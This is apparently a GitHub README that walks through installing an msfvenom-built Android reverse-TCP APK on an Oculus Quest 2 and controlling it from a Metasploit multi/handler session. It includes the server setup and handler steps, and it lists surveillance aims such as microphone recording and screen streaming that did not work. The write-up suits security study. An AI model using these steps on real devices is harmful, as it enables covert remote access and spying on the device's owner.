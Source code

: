 # Kali - Android Reverse TCP Handler Exploit on Oculus Quest2
### Oculus Quest 2 &amp; Kali Linux Exploit
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/logo%20main.png)


Prerequisite Setup:
Oculus Quest 2 Developer Mode Enabled

Steps:
Configure WebServer from Kali <br/>
sudo python3 -m http.server --bind 127.0.0.1 9000 <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/apache%20webserver.png)

Configure localtunnel for browser redirect (optional) <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/localtunnel.png)

Confirm access to webserver on custom port
Create msfvenom malicious android .apk & put on desktop<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/msfvenom.png)

Launch msfconsole and use exploit/multi/handler for android reverse_tcp payload & 
set LHOST<br/>
show options<br/>
exploit<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/TCP%20handler.png)

Download & Install androidApp.apk from WebServer<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/oculus%20browser.png)

Run MainActivity com.metasploit.stage<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/unsupported%20apps.png)

Sysinfo<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png)

help command shows all the options. app_list shows all the installed applications:<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png) <br/>
Here is a full list of everything installed <br/>
[a link](https://github.com/georgebluff/Kali/blob/main/app_list_full.txt)


Not working:

- Get root permissions to device
- Streaming oculus screen to attacker PC remotely
- Force enable/record guardan boundares
- Enable/record microphone
- Wireshark analysis on Oculus for Facebook Identity Auth
  
Links:<br/>
  Access Android with Metasploit Kali (Cybersecurity) - https://www.youtube.com/watch?v=YRm-St0bJhU <br/>
  How To Set Up Port Forwarding in Kali Linux Without Router Access | Kali Linux 2021.2 - https://www.youtube.com/watch?v=juu5PM0_NUI <br/>
  Kali http server setup - https://linuxconfig.org/kali-http-server-setup <br/>
  Exploiting Android Devices using Metasploit in Kali Linux - https://thehackerstuff.com/exploiting-android-devices-using-metasploit-in-kali-linux/
  
Notes: This infomation is for training and security research purposes only.
